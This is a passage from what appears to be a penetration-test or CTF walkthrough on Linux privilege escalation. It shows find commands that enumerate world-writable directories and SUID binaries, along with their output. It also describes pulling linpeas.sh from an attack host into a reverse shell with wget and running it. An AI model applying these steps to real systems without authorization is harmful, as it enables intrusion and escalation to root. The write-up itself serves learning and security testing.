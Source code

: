 ```bash
#World writable files directories 
find / -writable -type d 2>/dev/null
find / -perm -222 -type d 2>/dev/null 
find / -perm -o w -type d 2>/dev/null 

# World executable folder 
find / -perm -o x -type d 2>/dev/null 

# World writable and executable folders 

find / \( -perm -o w -perm -o x \) -type d 2>/dev/null
```

```bash
$ find / -perm /4000
/usr/lib/openssh/ssh-keysign
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/bin/sudo
/usr/bin/umount
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/chfn
```

### linpeas

From my attack host I do a `sudo python3 http.server 80` where my tools are, and then `wget` it from my reverse shell. 

I run `linpeas.sh`

```bash
╔══════════╣ SUID - Check easy privesc, exploits and write perms           
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                        
strings Not Found                                                                                                  
strace Not Found                                                                                                   
-rwsr-xr-x 1 root root 427K Oct  6  2019 /usr/lib/openssh/ssh-keysign                                              
-r-sr-xr-x 1 root root 14K Nov 12  2019 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper                       
-r-sr-xr-x 1 root root 14K Nov 12  2019 /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper                       
-rwsr-xr-- 1 root messagebus 50K Jun  9  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper                          
-rwsr-xr-x 1 root root 10K Mar 28  2017 /usr/lib/eject/dmcrypt-get-device                                          
-rwsr-xr-x 1 root root 154K Oct 12  2019 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable              
-rwsr-xr-x 1 root root 35K Jan 10  2019 /usr/bin/umount  --->  BSD/Linux(08-1996)                                  
-rwsr-xr-x 1 root root 63K Jan 10  2019 /usr/bin/su                                                                
-rwsr-xr-x 1 root root 83K Jul 27  2018 /usr/bin/gpasswd                                                           
```